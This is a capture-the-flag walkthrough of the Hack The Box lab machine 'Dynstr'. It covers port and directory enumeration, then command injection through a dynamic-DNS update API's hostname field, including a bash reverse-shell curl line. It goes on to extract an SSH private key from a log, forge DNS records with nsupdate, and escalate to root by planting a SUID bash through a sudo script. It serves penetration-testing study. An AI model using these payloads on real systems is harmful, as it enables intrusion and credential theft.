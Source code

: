 # [dynstr](https://app.hackthebox.com/machines/Dynstr)


```bash
nmap -p- --min-rate 10000 10.10.10.244 -Pn  
```

![Alt text](img/image.png)

After identifying open ports (22,53,80), we can do greater nmap scan.

```bash
nmap -A -sC -sV -p22,53,80 10.10.10.244 -Pn 
```

![Alt text](img/image-1.png)

Directory enumeration.

```bash
gobuster dir -u http://10.10.10.244/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 
```

![Alt text](img/image-2.png)

I found '/nic' endpoint, let's brute-force also this endpoint.

```bash
gobuster dir -u http://10.10.10.244/nic -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 
```

![Alt text](img/image-3.png)

If we browse the '/nic/update', it looks like API.

![Alt text](img/image-4.png)


I just find API [Documentation](https://www.noip.com/integrate/request) via no ip address included.


dynadns:sndanyd credentials are defualt ones for this API.

And `hostname` field is vulnerable on this API.

As because.

```bash
curl -G --data-urlencode 'hostname=d.r.4.k.s' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
```

![Alt text](img/image-5.png)

Let's inject our reverse shell payload into this parameter.

But, we need to show our IP Address in another format.

![Alt text](img/image-6.png)

```bash
curl -G --data-urlencode 'hostname=$(/bin/bash -c "bash -i >& /dev/tcp/168431619/1337 0>&1").no-ip.htb' 'http://dynadns:sndanyd@10.10.10.244/nic/update'
```

![Alt text](img/image-7.png)


I got reverse shell from port (1337).

![Alt text](img/image-8.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-9.png)


After enumeration, I find private key (id_rsa) from this file called 'strace-C62796521.txt' which located on '/home/bindmgr/support-case-C62796521'.

![Alt text](img/image-10.png)

I read just id_rsa.

```bash
grep BEGIN strace-C62796521.txt | cut -d'"' -f2 | sed 's/\\n/\'$'\n''/g'
```


I just grab this id_rsa file to login into 'bindmgr' account, but it doesn't work.

![Alt text](img/image-11.png)


As because, we need to add our public key into machine. For this, we need to update **nameserver**.

```bash
nsupdate -k /etc/bind/infra.key
server 127.0.0.1
zone dyna.htb
update add dr4ks.infra.dyna.htb 30 IN A 10.10.16.3
send
zone 10.in-addr.arpa
update add 3.16.10.10.in-addr.arpa 30 IN PTR dr4ks.infra.dyna.htb
send
```


![Alt text](img/image-12.png)

After this, we can successfully login into machine.

```bash
ssh -i id_rsa bindmgr@10.10.10.244
```

user.txt

![Alt text](img/image-13.png)


For privilege escalation, I just enumerate user via `sudo -l` command.

![Alt text](img/image-14.png)

This file has a script like below.

![Alt text](img/image-15.png)

The script was looking for a file named, “.version” with version number. So, I created a file in /dev/shm directory

![Alt text](img/image-16.png)

Then copied the /bin/bash into current directory gave the bash binary SUID bit and preserved the mode
```bash
cp /bin/bash .
chmod +s bash
echo > --preserve=mode
```

After execution of script via `sudo /usr/local/bin/bindmgr.sh`, I see that '/bin/bash' binary has **root** privilege.

![Alt text](img/image-17.png)

And runs this binary via `-p` option to get root shell (/etc/bind/named.bindmgr/bash).

root.txt

![Alt text](img/image-18.png)

